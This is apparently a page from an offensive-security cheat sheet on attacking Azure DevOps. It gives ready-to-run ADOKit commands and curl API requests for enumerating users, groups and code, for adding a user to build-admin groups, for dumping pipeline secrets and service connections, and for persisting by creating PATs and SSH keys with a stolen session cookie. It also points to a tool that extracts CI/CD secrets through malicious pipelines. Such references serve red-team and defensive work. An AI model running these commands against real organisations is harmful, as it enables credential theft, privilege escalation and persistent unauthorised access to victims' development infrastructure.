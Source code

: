 # Azure Services - Azure DevOps

* [xforcered/ADOKit](https://github.com/xforcered/ADOKit) - Azure DevOps Services Attack Toolkit
* [synacktiv/nord-stream](https://github.com/synacktiv/nord-stream) - Nord Stream is a tool that allows you to extract secrets stored inside CI/CD environments by deploying malicious pipelines. It currently supports Azure DevOps, GitHub and GitLab.
    ```ps1
    # List all secrets from all projects
    $ nord-stream.py devops --token "$PAT" --org myorg --list-secrets

    # Dump all secrets from all projects
    $ nord-stream.py devops --token "$PAT" --org myorg
    ```

## Authentication

You can access an organization's Azure DevOps Services instance via https://dev.azure.com/{yourorganization}. 

* Username and Password
* Authentication Cookie `UserAuthentication`: `ADOKit.exe whoami /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization`
* Personal Access Token (PAT): `ADOKit.exe whoami /credential:patToken /url:https://dev.azure.com/YourOrganization`
    ```ps1
    PAT="XXXXXXXXXXX"
    organization="YOURORGANIZATION"
    curl -u :${PAT} https://dev.azure.com/${organization}/_apis/build-release/builds
    ```


## Recon

* Search files: `file:FileNameToSearch`, `file:Test* OR file:azure-pipelines*`
  ```ps1
  curl -i -s -k -X $'GET'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: dev.azure.com'
  $'https://dev.azure.com/YOURORGANIZATION/PROJECTNAME/_apis/git/repositories/REPOSITORYID/items?recursionLevel=Full&api-version=7.0'
  ```

* Search code: `ADOKit.exe searchcode /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /search:"search term"`
  ```ps1
  curl -i -s -k -X $'POST'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: almsearch.dev.azure.com'
  -H $'Content-Length: 85'
  -H $'Expect: 100-continue'
  -H $'Connection: close'
  --data-binary $'{\"searchText\": \"SEARCHTERM\", \"skipResults\":0,\"takeResults\":1000,\"isInstantSearch\":true}' 
  $'https://almsearch.dev.azure.com/YOURORGANIZATION/_apis/search/codeAdvancedQueryResults?api-version=7.0-preview'
  ```

* Enumerate users
  ```ps1
  curl -i -s -k -X $'GET'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: dev.azure.com'
  $'https://dev.azure.com/YOURORGANIZATION/_apis/graph/users?api-version=7.0'
  ```

* Enumerate groups: `ADOKit.exe getgroupmembers /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /group:"search term"`
  ```ps1
  curl -i -s -k -X $'GET'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: dev.azure.com'
  $'https://dev.azure.com/YOURORGANIZATION/_apis/graph/groups?api-version=7.0'
  ```

* Enumerate porject permissions: `ADOKit.exe getpermissions /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`


## Privilege Escalation

* Adding User to Group: `ADOKit.exe addcollectionbuildadmin /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /user:"username"` 
    ```ps1
    curl -i -s -k -X $'PUT'
    -H $'Content-Type: application/json'
    -H $'User-Agent: Some User Agent'
    -H $'Authorization: Basic base64EncodedPAT'
    -H $'Host: vssps.dev.azure.com'
    -H $'Content-Length: 0'
    $'https://vssps.dev.azure.com/YourOrganization/_apis/graph/memberships/userDescriptor/groupDescriptor?api-version=7.0-preview.1'
    ```

* Retrieve build variables and secrets: `ADOKit.exe getpipelinevars /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`, `ADOKit.exe getpipelinesecrets /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`
    ```ps1
    curl -i -s -k -X $'GET'
    -H $'Content-Type: application/json'
    -H $'User-Agent: Some User Agent'
    -H $'Authorization: Basic base64EncodedPAT'
    -H $'Host: dev.azure.com'
    $'https://dev.azure.com/YourOrganization/ProjectName/_apis/build/Definitions/DefinitionIDNumber?api-version=7.0'
    ```

* Retrieve Service Connection Information: `ADOKit.exe getserviceconnections /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`
    ```ps1
    curl -i -s -k -X $'GET'
    -H $'Content-Type: application/json;api-version=5.0-preview.1'
    -H $'User-Agent: Some User Agent'
    -H $'Authorization: Basic base64EncodedPAT'
    -H $'Host: dev.azure.com'
    $'https://dev.azure.com/YourOrganization/YourProject/_apis/serviceendpoint/endpoints?api-version=7.0'
    ```


## Persistence

* Create a PAT: `ADOKit.exe createpat /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization`
    ```ps1
    curl -i -s -k -X $'POST'
    -H $'Content-Type: application/json'
    -H $'Accept: application/json;api-version=5.0-preview.1'
    -H $'User-Agent: Some User Agent'
    -H $'Host: dev.azure.com'
    -H $'Content-Length: 234'
    -H $'Expect: 100-continue'
    -b $'X-VSS-UseRequestRouting=True; UserAuthentication=stolenCookie'
    --data-binary $'{\"contributionIds\":[\"ms.vss-token-web.personal-accesstoken-issue-session-tokenprovider\"],\"dataProviderContext\":{\"properties\":{\"displayName\":\"PATName\",\"validTo\":\"YYYY-MMDDT00:00:00.000Z\",\"scope\":\"app_token\",\"targetAccounts\":[]}}}}}'
    $'https://dev.azure.com/YourOrganization/_apis/Contribution/HierarchyQuery'
    ```

* Create SSH Keys: `ADOKit.exe createsshkey /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /sshkey:"ssh pub key"`
    ```ps1
    curl -i -s -k -X $'POST'
    -H $'Content-Type: application/json'
    -H $'Accept: application/json;api-version=5.0-preview.1'
    -H $'User-Agent: Some User Agent'
    -H $'Host: dev.azure.com'
    -H $'Content-Length: 856'
    -H $'Expect: 100-continue'
    -b $'X-VSS-UseRequestRouting=True; UserAuthentication=stolenCookie'
    --data-binary $'{\"contributionIds\":[\"ms.vss-token-web.personal-accesstoken-issue-session-tokenprovider\"],\"dataProviderContext\":{\"properties\":{\"displayName\":\"SSHKeyName\",\"publicData\":\"public SSH key content\",\"validTo\":\"YYYY-MMDDT00:00:00.000Z\",\"scope\":\"app_token\",\"isPublic\":true,\"targetAccounts\":[\"organizationID\"]}}}}}'
    $'https://dev.azure.com/YourOrganization/_apis/Contribution/HierarchyQuery'
    ```


## References

* [Hiding in the Clouds: Abusing Azure DevOps Services to Bypass Microsoft Sentinel Analytic Rules - Brett Hawkins - November 6, 2023](https://www.ibm.com/downloads/cas/5JKAPVYD)